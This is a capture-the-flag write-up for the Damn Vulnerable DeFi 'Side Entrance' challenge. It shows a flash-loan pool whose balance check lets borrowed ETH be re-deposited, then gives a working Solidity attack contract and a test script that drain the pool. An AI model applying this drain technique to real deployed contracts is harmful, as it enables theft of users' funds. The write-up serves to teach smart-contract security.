 # 04_SideEntrance

## Challenge

A surprisingly simple pool allows anyone to deposit ETH, and withdraw it at any point in time.

It has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.

Starting with 1 ETH in balance, pass the challenge by taking all ETH from the pool.

You are provided with the code for the flashloan providing pool:

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "solady/src/utils/SafeTransferLib.sol";

interface IFlashLoanEtherReceiver {
    function execute() external payable;
}

/**
 * @title SideEntranceLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract SideEntranceLenderPool {
    mapping(address => uint256) private balances;

    error RepayFailed();

    event Deposit(address indexed who, uint256 amount);
    event Withdraw(address indexed who, uint256 amount);

    function deposit() external payable {
        unchecked {
            balances[msg.sender] += msg.value;
        }
        emit Deposit(msg.sender, msg.value);
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        
        delete balances[msg.sender];
        emit Withdraw(msg.sender, amount);

        SafeTransferLib.safeTransferETH(msg.sender, amount);
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        if (address(this).balance < balanceBefore)
            revert RepayFailed();
    }
}
```

## Solution

Here we once again have the same issue. We are only checking for our balance being the same before and after the loan. 

We can abuse this by just using the flash loan to call the deposit() function passing it all the value we received from our loan (balance of the contract). When it comes to the possible revert, the balance is still the same and the flash loan finishes. But now we have all the money assigned to us using balances and can just withdraw it using the withdraw() function. I once again wrote a simple attack contract:

```solidity
// SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.8.0;

import "./SideEntranceLenderPool.sol";
import "../DamnValuableToken.sol";

contract Attack_SideEntrance {

    address owner;

    function getEmBoyz(address _pool) public
    {
        SideEntranceLenderPool(_pool).flashLoan(_pool.balance);
        SideEntranceLenderPool(_pool).withdraw();
        msg.sender.call{value: address(this).balance}("");
    }

    function execute() external payable
    {
        SideEntranceLenderPool(msg.sender).deposit{value: msg.value}();
    } 

    receive() external payable
    {
        
    }  
}
```

We can then just deploy and call this in the testscript the same way as we did before:

```js
it('Execution', async function () {
    /** CODE YOUR SOLUTION HERE */

    const Attack_SideEntrance = await ethers.getContractFactory('Attack_SideEntrance', player);
    attack = await Attack_SideEntrance.deploy();
    await attack.connect(player).getEmBoyz(pool.address);
});
```

This works and finishes the challenge.
